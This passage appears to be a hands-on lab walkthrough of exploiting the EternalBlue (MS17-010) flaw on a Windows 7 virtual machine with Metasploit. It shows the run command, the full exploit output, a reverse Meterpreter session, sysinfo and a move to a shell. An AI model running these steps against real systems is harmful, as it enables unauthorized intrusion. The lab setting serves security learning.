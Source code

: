 ~~~
RHOSTS => 192.168.138.9
~~~ 
To run the exploit against the target, I only have to enter **run** and press the enter key on my keyboard. So let's do this!
~~~
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.138.4:4444 
[*] 192.168.138.9:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.138.9:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.138.9:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.138.9:445 - The target is vulnerable.
[*] 192.168.138.9:445 - Connecting to target for exploitation.
[+] 192.168.138.9:445 - Connection established for exploitation.
[+] 192.168.138.9:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.138.9:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.138.9:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.138.9:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.138.9:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.138.9:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.138.9:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.138.9:445 - Sending all but last fragment of exploit packet
[*] 192.168.138.9:445 - Starting non-paged pool grooming
[+] 192.168.138.9:445 - Sending SMBv2 buffers
[+] 192.168.138.9:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.138.9:445 - Sending final SMBv2 buffers.
[*] 192.168.138.9:445 - Sending last fragment of exploit packet!
[*] 192.168.138.9:445 - Receiving response from exploit packet
[+] 192.168.138.9:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.138.9:445 - Sending egg to corrupted connection.
[*] 192.168.138.9:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.138.9
[*] Meterpreter session 1 opened (192.168.138.4:4444 -> 192.168.138.9:49159) at 2022-08-23 12:26:57 +0200
[+] 192.168.138.9:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.138.9:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.138.9:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 
~~~
The meterpreter connection was established and waiting for input.
I would like to know on what system I am working, so I entered **sysinfo** into the meterpreter session and hit the enter key.

~~~
meterpreter > sysinfo
Computer        : WIN-845Q99OO4PP
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
~~~
As expected I am working on the Windows 7 machine. To control the system fully I love to have a shell. By entering **shell** it pops a shell so I van use the normal Windows commands such as whoami.

